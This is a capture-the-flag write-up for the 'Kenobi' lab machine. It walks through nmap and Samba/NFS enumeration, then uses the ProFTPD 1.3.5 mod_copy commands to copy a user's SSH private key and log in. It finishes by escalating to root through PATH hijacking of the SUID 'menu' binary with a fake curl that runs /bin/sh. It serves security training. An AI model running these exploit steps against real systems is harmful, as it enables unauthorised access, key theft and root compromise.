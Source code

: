 ﻿## Kenobi
- Exploiting a Linux machine. 
- Enumerate Samba for shares, manipulate proftpd and escalate privileges with path variable manipulation 

### Reconnaissance
 With nmap scan found below ports are open and running services 

    nmap 10.10.143.1 -vvv 
    PORT     STATE SERVICE      REASON
    21/tcp   open  ftp          syn-ack
    22/tcp   open  ssh          syn-ack
    80/tcp   open  http         syn-ack
    111/tcp  open  rpcbind      syn-ack
    139/tcp  open  netbios-ssn  syn-ack
    445/tcp  open  microsoft-ds syn-ack
    2049/tcp open  nfs          syn-ack

### Samba 
Samba allows end users to access the files, printers and commonly shared resources on the intra and internet. Often referred as Network File System. 
It is based on *common client/server protocol of Server Message Block (SMB)*. 
**Note**: SMB is developed only for Windows, so without Samba other than Windows platforms would be isolated in the network.  
 
The server has Samba running, so enumerating for shares 

    nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.143.1

Found below user names and their paths: 
guest - C:\tmp 
anonymous - C:\home\kenobi\share
print  - \var\lib\samba\printers

There is a log.txt file under anonymous which contains SSH, FTPd and other information.


    nmap  -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.48.174 
         
    PORT    STATE SERVICE
    111/tcp open  rpcbind
    | nfs-showmount: 
    |_  /var *

The `/var` location is available to mount. 

### Exploiting the FTP service
With a simple netcat, we can connect to FTPd service and get the version it is running.

    nc 10.10.48.174 21
    220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.48.174]

From above, we can see the proFTPD is running on 1.3.5 version.

Lets see if there are any available exploits:

    searchsploit proftpd 1.3.5
    --------------------------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                                     |  Path
    --------------------------------------------------------------------------------------------------- ---------------------------------
    ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                          | linux/remote/37262.rb
    ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                | linux/remote/36803.py
    ProFTPd 1.3.5 - File Copy                                                                          | linux/remote/36742.txt
    --------------------------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
Using the mod copy exploit, we can copy the private key that we see in the log.txt to a location where we can access:

    nc 10.10.48.174 21
    220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.48.174]
    
    SITE CPFR /home/kenobi/.ssh/id_rsa
    350 File or directory exists, ready for destination name
    SITE CPTO /var/tmp/id_rsa
    250 Copy successful
Mount the /var on our system to access the file:

    sudo mount 10.10.48.174:/var /mnt/kenobiNFS/

Copy the mnt/kenobiNFS/tmp/id_rsa to a directory and then ssh into the server

    ssh -i id_rsa kenobi@10.10.48.174

### Privilege Escalation  

Finding any abnormal files with SUID bit:

    find / -perm -u=s -type f -exec ls -l {} \; 2>/dev/null
    -rwsr-xr-x 1 root root 94240 May  8  2019 /sbin/mount.nfs
    -rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
    -rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    -rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
    -rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
    -rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
    -rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
    -rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
    -rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 8880 Sep  4  2019 /usr/bin/menu
    -rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
    -rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
    -rwsr-sr-x 1 daemon daemon 51464 Jan 14  2016 /usr/bin/at
    -rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
    -rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
    -rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
    -rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
    -rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
    -rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
    -rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6

From the above, we can see the `/usr/bin/menu` seems a custom program and lets see if we can do any on this. 

The functionality of this custom program seems checking  web connection using `curl`, kernel version and ip status using `ifconfig`.

    kenobi@kenobi:~$ /usr/bin/menu 
    
    ***************************************
    1. status check
    2. kernel version
    3. ifconfig
    ** Enter your choice :1
    HTTP/1.1 200 OK
    Date: Mon, 29 Jun 2020 22:38:57 GMT
    Server: Apache/2.4.18 (Ubuntu)
    Last-Modified: Wed, 04 Sep 2019 09:07:20 GMT
    ETag: "c8-591b6884b6ed2"
    Accept-Ranges: bytes
    Content-Length: 200
    Vary: Accept-Encoding
    Content-Type: text/html
    
    kenobi@kenobi:~$ /usr/bin/menu 
    
    ***************************************
    1. status check
    2. kernel version
    3. ifconfig
    ** Enter your choice :2
    4.8.0-58-generic
    kenobi@kenobi:~$ /usr/bin/menu 
    
    ***************************************
    1. status check
    2. kernel version
    3. ifconfig
    ** Enter your choice :3
    eth0      Link encap:Ethernet  HWaddr 02:29:8f:02:e1:de  
              inet addr:10.10.96.188  Bcast:10.10.255.255  Mask:255.255.0.0
              inet6 addr: fe80::29:8fff:fe02:e1de/64 Scope:Link
              UP BROADCAST RUNNING MULTICAST  MTU:9001  Metric:1
              RX packets:2405 errors:0 dropped:0 overruns:0 frame:0
              TX packets:2269 errors:0 dropped:0 overruns:0 carrier:0
              collisions:0 txqueuelen:1000 
              RX bytes:155505 (155.5 KB)  TX bytes:3081289 (3.0 MB)
    
    lo        Link encap:Local Loopback  
              inet addr:127.0.0.1  Mask:255.0.0.0
              inet6 addr: ::1/128 Scope:Host
              UP LOOPBACK RUNNING  MTU:65536  Metric:1
              RX packets:214 errors:0 dropped:0 overruns:0 frame:0
              TX packets:214 errors:0 dropped:0 overruns:0 carrier:0
              collisions:0 txqueuelen:1 
              RX bytes:15541 (15.5 KB)  TX bytes:15541 (15.5 KB)

- Using the environment variable manipulation we can manipulate the command to execute with our custom command. 
- As the "status check" is using the curl command, we create a dummy curl file  `/tmp/curl` which executes `/bin/sh`. The path `/tmp` will be added to start of the `PATH` variable.  When a binary is called, it will  always check from left to right and our `/tmp/curl` will be picked up. 
- As `/usr/bin/menu` has the effective user as root, our command will get execute with root which in turn spawns a root shell. 
-  


    kenobi@kenobi:/tmp$ echo /bin/sh > curl
    kenobi@kenobi:/tmp$ chmod 755 curl
    kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
    kenobi@kenobi:/tmp$ echo $PATH
    /tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin  
    kenobi@kenobi:/tmp$ /usr/bin/menu 
    ***************************************
    1. status check
    2. kernel version
    3.  ifconfig
    ** Enter your choice :1
     # id
    uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare) 

### CTF
The flag in /root/root.txt is `177b3cd8562289f37382721c28381f02`


